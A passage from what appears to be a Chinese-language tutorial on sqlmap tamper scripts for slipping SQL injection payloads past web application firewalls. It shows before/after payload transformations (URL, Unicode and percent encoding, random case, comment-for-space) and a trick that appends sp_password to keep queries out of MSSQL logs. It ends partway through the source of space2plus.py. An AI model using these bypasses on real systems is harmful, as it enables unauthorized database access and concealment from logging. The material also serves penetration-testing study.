 ```
使用脚本后：1 AND A NOT BETWEEN 0 AND B--，1 AND A BETWEEN B AND B--

10、percentage.py
适用数据库：ASP
测试数据库：Microsoft SQL Server 2000, 2005 、MySQL 5.1.56, 5.5.11 、PostgreSQL 9.0
作用：在每个字符前加上一个%
使用脚本前：tamper('SELECT FIELD FROM TABLE')
使用脚本后：%S%E%L%E%C%T %F%I%E%L%D %F%R%O%M %T%A%B%L%E

11、sp_password.py
适用数据库：mssql
作用：将sp_password追加到有效载荷后，以便从DBMS日志中自动混淆。
使用脚本前：tamper('1 AND 9227=9227-- ')
使用脚本后：1 AND 9227=9227-- sp_password

12、charencode.py
测试数据库：Microsoft SQL Server 2005、MySQL 4, 5.0 and 5.5、Oracle 10g、PostgreSQL 8.3, 8.4, 9.0
作用：对指定的payload全部使用url编码（不处理已进行编码的字符）
使用脚本前：tamper('SELECT FIELD FROM%20TABLE')
使用脚本后：%53%45%4C%45%43%54%20%46%49%45%4C%44%20%46%52%4F%4D%20%54%41%42%4C%45

13、randomcase.py
测试数据库：Microsoft SQL Server 2005、MySQL 4, 5.0 and 5.5、Oracle 10g、PostgreSQL 8.3, 8.4, 9.0、SQLite 3
作用：将字符替换为随机大小写
使用脚本前：tamper('INSERT')
使用脚本后：InSeRt

14、charunicodeencode.py
适用数据库：ASP 、ASP.NET
测试数据库：Microsoft SQL Server 2000 、Microsoft SQL Server 2005、MySQL 5.1.56 、PostgreSQL 9.0.3
作用：适用字符串的Unicode编码
使用脚本前：tamper('SELECT FIELD%20FROM TABLE')
使用脚本后：%u0053%u0045%u004C%u0045%u0043%u0054%u0020%u0046%u0049%u0045%u004C%u0044%u0020%u0046%u0052%u004F%u004D%u0020%u0054%u0041%u0042%u004C%u0045

15、space2comment.py
测试数据库：Microsoft SQL Server 2005、MySQL 4, 5.0 and 5.5、Oracle 10g、PostgreSQL 8.3, 8.4, 9.0
作用：将空格替换为/**/
使用脚本前：tamper('SELECT id FROM users')
使用脚本后：SELECT/**/id/**/FROM/**/users
```

当然，有时候我们也会遇到需要自己写tamper绕waf的情况，这里简单看看tamper长啥样，比如我们看到space2plus.py：

```
#!/usr/bin/env python

from lib.core.compat import xrange
from lib.core.enums import PRIORITY

__priority__ = PRIORITY.LOW

def dependencies():
    pass

def tamper(payload, **kwargs):
    retVal = payload

    if payload:
        retVal = ""
        quote, doublequote, firstspace = False, False, False

        for i in xrange(len(payload)):
            if not firstspace:
```